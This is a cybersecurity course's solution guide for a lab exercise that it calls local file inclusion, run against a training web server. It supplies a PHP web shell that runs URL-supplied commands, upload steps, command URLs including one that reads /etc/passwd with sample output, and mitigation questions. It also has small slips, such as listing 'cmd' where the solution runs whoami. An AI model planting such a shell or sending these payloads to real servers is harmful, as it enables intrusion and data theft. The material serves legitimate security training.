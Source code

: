 ## Solution Guide: Local File Inclusion 

In this activity, you were tasked with testing an intended purpose of an application by uploading and viewing a basic image file. You were then tasked with uploading a malicious PHP script and using the script to execute command-line scripts against the web server.

---

1. Test the intended use of the web application.

    **Uploading the Image**

    We will first see how to upload and view an image from the file upload webpage.

      - First select Browse to find the image that you want to upload.

      - By default, this should take you to the desktop of your Vagrant filesystem.

        - If it takes you to a different location, select Desktop.

      - There will be a file on your desktop called `image.jpg`.

        - Select that image.

      - Back on the file upload page, you should see the `image.jpg` filename that you selected.

        - To upload the file, select Upload.

      - You should then receive a success message that states the following:

        `../../hackable/uploads/image.jpg succesfully uploaded!`
      
    **Viewing the image**  

    - Note that the previous success message indicates where the file has been uploaded to: 
      
      - `../../hackable/uploads/image.jpg`

    - Access the image by replacing the `#` at the end of the URL, with the complete location indicated above.

      - `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/image.jpg `

      - Note that your browser will automatically update the URL to the direct location of the image:

        - `http://192.168.13.25/hackable/uploads/image.jpg`

    - You should see the image of a squirrel. 
    
      - Note that this is how the application is intended to work, by providing the user with an option to upload and view an image!

2. Test an unintended function of the application by loading a malicious PHP script.

    - Note that you just tested how the application is designed to load and view an image.

    - Let's now view a malicious PHP script that we can upload, instead of an image.

    - The malicious PHP script, called `script.php`, has been placed on your desktop.

      - To view this script, find it on your desktop and double-click on it to open:
      
                  <?php
                  $command = $_GET['cmd'];
                  echo system($command);
                  ?>

      - While understanding the exact syntax is not important for now, just note that the contents in the script are designed to run a PHP script to execute a user command.

    - Return to the file upload webpage and follow the same steps again, but this time select and upload the file `script.php`.

      - Note that this script will be uploaded to the same location as the image you previously uploaded.

3. Run command-line commands with your PHP script.

    - Let's now see if we can run command-line commands against the Replicants web server!

      - Change the URL to access the script that you just uploaded.
      
    - Modify the URL again to run the several Linux commands:

      - **Hint**: Review your class slides to see how to modify the URL to run command-line commands.

      - Run the following Linux commands and take note of the results:

        1. `ls`

        2. `cmd`
        
        3. `pwd`
        
        4. `ps`

    - **Note**: While this is a safe place to experiment with commands, DO NOT run commands that might delete or alter files that your system needs, such as `rm`, `mv`, or `rdmir`.

    - **Solution**: The commands to run these scripts are as follows.

      1. `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=ls`

          - Results might vary but will look like the following:

              - `image.jpg dvwa_email.png script.php script.php`

      2. `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=whoami`

          - Results might look like the following:

              - `www-data www-data`

      3. `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=pwd`

          - Results will look like the following:

              - `/var/www/html/hackable/uploads /var/www/html/hackable/uploads`   
                
      4. `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=ps`

          - Results might vary but will look like the following:

              - `PID TTY TIME CMD 305 ? 00:00:00 apache2 306 ? 00:00:00 apache2 307 ? 00:00:00 apache2 308 ? 00:00:00 apache2 309 ? 00:00:00 apache2 314 ? 00:00:00 apache2 315 ? 00:00:00 apache2 316 ? 00:00:00 apache2 317 ? 00:00:00 apache2 324 ? 00:00:00 sh 325 ? 00:00:00 ps 325 ? 00:00:00 ps`

4. **Bonus**: Run commands to explore files with your PHP script.

    - Let's now see if we can run malicious commands to explore files within the Replicants web server.

      - By modifying the URL, access the script that you just uploaded.
      
    - Modify the URL to view the `/etc/passwd` file.

      - **Hint**: You will need to encode your payload, as the URL will not accept all characters, such as spaces.

      - Use the following webpage to help design your payload: [MeyerWeb: URL Encoder/Decoder](https://meyerweb.com/eric/tools/dencoder/).

    - **Solution**

      - The command to run this script is as follows:

        `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=cat%20../../../../../etc/passwd`

      - Results will look like the following:

        `root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false`  

5. Answer the following mitigation strategy questions:

    - Describe to your management how a malicious user can take advantage of the vulnerabilities that you just exploited. Be sure to include the potential impact.

      - There are many acceptable answers, as if a web application is vulnerable to local file injection, a variety of malicious payloads can be exploited. Impacts could include the following:
          
          - Display of confidential data such as user accounts, password hashes, service accounts, or network information.
          
          - Deletion or modification of the preceding confidential data, which can lead to system outages.

    - Describe in plain language how you might mitigate the vulnerabilities that you just exploited.

      - There are many acceptable answers, all involving input validation. Options might include server-side validation, to only allow certain file types to be uploaded.

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved. 
